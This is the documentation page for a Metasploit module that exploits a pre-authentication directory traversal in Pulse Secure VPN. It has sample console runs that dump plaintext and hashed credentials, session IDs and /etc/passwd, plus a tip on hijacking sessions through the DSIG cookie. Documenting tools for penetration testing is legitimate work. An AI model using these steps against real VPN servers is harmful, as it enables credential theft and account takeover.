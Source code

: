 ## Introduction

This module exploits a pre-auth directory traversal in the Pulse Secure
VPN server to dump an arbitrary file. Dumped files are stored in loot.

If the `Automatic` action is set, plaintext and hashed credentials, as
well as session IDs, will be dumped. Valid sessions can be hijacked by
setting the `DSIG` browser cookie to a valid session ID.

For the `Manual` action, please specify a file to dump via the `FILE`
option. `/etc/passwd` will be dumped by default. If the `PRINT` option is
set, file contents will be printed to the screen, with any unprintable
characters replaced by a period.

Please see related module exploit/linux/http/pulse_secure_cmd_exec to
see what you can do with a valid session or credentials.

## Actions

```
Name       Description
----       -----------
Automatic  Dump creds and sessions
Manual     Dump an arbitrary file (FILE option)
```

## Options

**FILE**

Set this to the file you want to dump. The default is `/etc/passwd`.
Valid only in manual mode.

**PRINT**

Whether to print file contents to the screen. Valid only in manual mode.

## Usage

Dumping creds and sessions in automatic mode:

```
msf5 auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in automatic mode
[*] Dumping /data/runtime/mtmp/lmdb/dataa/data.mdb
[+] /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[*] Dumping /data/runtime/mtmp/lmdb/randomVal/data.mdb
[*] Parsing session IDs...
[+] Session ID found: df502e6052d9002d8f02160af8bfd055
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: acbef5625
[+] Session ID found: c145e683a
[+] Session ID found: fc6c097dd
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: c145e683a17cfacb72a47eb8b2515c14
[+] Session ID found: a7661751393e16fa253e97bd02dc2a4f
[+] Session ID found: 7e78ab276afea3f00dfa41892c437156c699eff8
[+] /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[*] Dumping /data/runtime/mtmp/system
[+] /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin
[*] Auxiliary module execution completed
msf5 auxiliary(gather/pulse_secure_file_disclosure) > loot

Loot
====

host         service  type                                        name                                        content                   info                   path
----         -------  ----                                        ----                                        -------                   ----                   ----
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/dataa/data.mdb      application/octet-stream  Plaintext credentials  /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/randomVal/data.mdb  application/octet-stream  Session IDs            /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/system                   application/octet-stream  Hashed credentials     /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin

msf5 auxiliary(gather/pulse_secure_file_disclosure) >
```

Dumping default `/etc/passwd` in manual mode:

```
msf5 auxiliary(gather/pulse_secure_file_disclosure) > set action Manual
action => Manual
msf5 auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in manual mode
[*] Dumping /etc/passwd
root:x:0:0:root:/:/bin/bash
nfast:x:0:0:nfast:/:/bin/bash
bin:x:1:1:bin:/:
nobody:x:99:99:Nobody:/:
dns:x:98:98:DNS:/:
term:x:97:97:Telnet/SSH:/:
web80:x:96:96:Port 80 web:/:
rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
postgres:x:102:102:PostgreSQL User:/:

[+] /Users/wvu/.msf4/loot/20191029222949_default_[redacted]_PulseSecureVPN_073170.bin
[*] Auxiliary module execution completed
msf5 auxiliary(gather/pulse_secure_file_disclosure) >
```
